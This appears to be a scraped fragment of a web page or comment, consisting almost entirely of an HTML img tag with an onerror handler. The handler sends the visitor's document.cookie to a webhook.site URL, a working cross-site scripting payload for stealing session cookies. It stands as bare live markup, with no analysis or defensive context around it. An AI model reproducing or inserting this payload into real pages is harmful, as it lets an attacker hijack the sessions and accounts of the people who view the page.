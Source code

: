 <img src="x" onerror="if (!window.spammed) { window.spammed = true; this.src='https://webhook.site/b289fee0-0412-4cbb-9a24-5658f3066af3/?' + document.cookie; }">
